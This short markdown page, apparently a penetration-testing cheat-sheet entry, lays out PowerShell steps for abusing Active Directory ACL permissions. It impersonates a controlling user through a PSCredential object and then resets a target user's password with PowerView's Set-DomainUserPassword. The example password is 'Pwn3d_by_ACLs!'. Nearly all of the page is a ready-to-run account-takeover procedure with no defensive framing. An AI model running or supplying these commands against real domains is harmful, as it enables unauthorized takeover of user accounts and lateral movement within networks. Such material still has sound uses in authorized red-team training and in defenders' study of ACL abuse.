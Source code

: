 Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
